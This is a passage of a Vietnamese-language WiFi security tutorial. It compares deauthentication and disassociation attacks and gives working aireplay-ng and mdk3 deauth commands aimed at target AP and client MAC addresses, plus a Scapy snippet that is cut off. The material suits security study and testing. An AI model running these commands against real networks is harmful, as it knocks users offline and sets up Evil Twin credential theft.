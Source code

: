 | **Tiêu chí**             | **Deauthentication Attack**                                                                                                  | **Disassociation Attack**                                                                                   |
|--------------------------|-----------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------|
| **Khung tin sử dụng**    | **Deauthentication Frame:** Thông báo hủy kết nối và xóa thông tin phiên.                                                    | **Disassociation Frame:** Thông báo yêu cầu client rời khỏi BSS nhưng không xóa toàn bộ thông tin phiên.      |
| **Mục đích**             | Buộc client đăng nhập lại, gây gián đoạn liên tục và tạo cơ hội cho tấn công nâng cao (ví dụ: Evil Twin).                       | Ngắt kết nối tạm thời; client có thể tự động kết nối lại mà không cần quá trình đăng nhập lại đầy đủ.         |
| **Tác động đến kết nối** | Gây ra mất kết nối nghiêm trọng, yêu cầu client phải trải qua lại quá trình xác thực.                                        | Gây gián đoạn ngắn hạn, client có thể phục hồi kết nối tự động.                                             |
| **Khả năng phục hồi**     | Yêu cầu quá trình xác thực lại đầy đủ, làm giảm trải nghiệm người dùng.                                                     | Cho phép client khôi phục kết nối nhanh chóng.                                                             |
| **Ví dụ thực tiễn**      | Sử dụng **aireplay-ng** để gửi 10 gói deauth, buộc client đăng nhập lại hoàn toàn.                                         | Gửi disassociation frame khiến client mất kết nối nhưng nhanh chóng tái kết nối nếu có sẵn.                    |

## 2.6. Công cụ Thực hiện và Ví dụ Cụ thể

### 2.6.1. aireplay-ng

- **Mô tả:**  
  Aireplay-ng thuộc bộ Aircrack-ng suite, cho phép gửi các gói tin tùy chỉnh, bao gồm cả deauthentication frame, nhằm kiểm tra bảo mật của mạng WiFi.

- **Ví dụ lệnh:**  
  ```bash
  aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon
  ```
  - **Giải thích:**  
    - `--deauth 10`: Gửi 10 gói tin deauthentication.
    - `-a 00:11:22:33:44:55`: Địa chỉ MAC của AP mục tiêu.
    - `-c 66:77:88:99:AA:BB`: Địa chỉ MAC của client mục tiêu.
    - `wlan0mon`: Giao diện chuyển sang chế độ monitor.

### 2.6.2. MDK3

- **Mô tả:**  
  MDK3 là công cụ tấn công mạng không dây mạnh mẽ, hỗ trợ nhiều chế độ tấn công, trong đó có deauthentication.

- **Ví dụ lệnh:**  
  ```bash
  mdk3 wlan0mon d -c 6 -b 00:11:22:33:44:55
  ```
  - **Giải thích:**  
    - `d`: Chế độ tấn công deauthentication.
    - `-c 6`: Kênh hoạt động của AP.
    - `-b 00:11:22:33:44:55`: Địa chỉ MAC của AP mục tiêu.
  - **Lưu ý:**  
    Tham khảo tài liệu của MDK3 để điều chỉnh tham số cho phù hợp với mục tiêu.

### 2.6.3. Scapy

- **Mô tả:**  
  Scapy là thư viện Python mạnh mẽ, cho phép xây dựng và thao tác với các gói tin tùy chỉnh, hữu ích cho nghiên cứu và kiểm thử bảo mật.

- **Ví dụ mã nguồn:**  
  ```python
  from scapy.all import *

  # Cấu hình thông tin
  client_mac = "66:77:88:99:AA:BB"
  ap_mac = "00:11:22:33:44:55"
  iface = "wlan0mon"

  # Tạo gói Beacon thông thường (để phân tích cấu trúc)
  beacon_frame = RadioTap()/Dot11(addr1="ff:ff:ff:ff:ff:ff", addr2=ap_mac, addr3=ap_mac)/Dot11Beacon()/Dot11Elt(ID="SSID", info="ExampleAP")
  print("Thông tin gói Beacon:")
  ```